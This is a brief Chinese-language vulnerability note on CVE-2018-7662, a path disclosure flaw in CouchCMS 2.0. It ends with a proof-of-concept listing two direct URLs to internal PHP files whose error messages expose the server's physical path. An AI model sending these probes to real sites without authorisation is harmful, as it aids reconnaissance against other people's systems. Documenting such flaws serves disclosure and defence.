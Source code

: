 # （CVE-2018-7662）Couchcms 2.0 存在路径泄露漏洞

> 原文：[http://book.iwonder.run/0day/Couchcms/CVE-2018-7662.html](http://book.iwonder.run/0day/Couchcms/CVE-2018-7662.html)

## 一、漏洞简介

Couch through 2.0 存在路径泄露漏洞，当访问特定 url 时系统返回的报错信息中暴露物理路径信息。Couch through 是一个在 github 上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/CouchCMS/CouchCMS/issues/46)告知作者。

## 二、漏洞影响

Couch through 2.0

## 三、复现过程

### poc

访问如下页面，报错信息中显示完整物理路径信息。

```
http://www.0-sec.org/includes/mysql2i/mysql2i.func.php
http://www.0-sec.org/addons/phpmailer/phpmailer.php 
```

